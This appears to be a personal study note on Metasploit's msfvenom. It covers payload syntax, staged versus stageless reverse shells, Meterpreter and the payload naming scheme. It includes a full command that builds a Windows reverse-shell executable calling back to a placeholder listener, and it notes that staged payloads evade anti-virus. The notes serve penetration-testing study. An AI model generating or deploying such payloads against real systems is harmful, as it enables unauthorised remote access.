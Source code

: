 Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells.
The standard syntax for msfvenom is as follows:
`msfvenom -p <PAYLOAD> <OPTIONS>`  

For example, to generate a Windows x64 Reverse [[Shell]] in an exe format, we could use:
`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`
- **-f** is used to specifies the output format.
- **-o** the output location and filename for the generated payload.
- **LHOST=** is used to specify the IP to connect back to.
- **LPORT=** is used to specify the port on the local machine to connect back to.
## Staged Payloads
Are sent in two parts. The first part is called the stager. This is  piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself.
Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus. Staged payloads require a special listener -- usually the Metasploit multi/handler.
## Stageless
Are more common, these are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener. Stageless payloads tend to be easier to use and catch.

## Meterpreter
Meterpreter shells are Metasploit's own brand of fully-featured shell. They are completely stable, making them a very good thing when working with Windows targets.

### Payload Naming Conventions
When working with msfvenom, it's important to understand how the naming system works. The basic convention is as follows:
`<OS>/<arch>/<payload>`  
  
For example:
`linux/x86/shell_reverse_tcp`  

This would generate a stageless reverse shell for an x86 Linux target.
In the above examples the payload used was `shell_reverse_tcp`. This indicates that it was a _stageless_ payload. Stageless payloads are denoted with underscores (`_`). The staged equivalent to this payload would be:

`shell/reverse_tcp`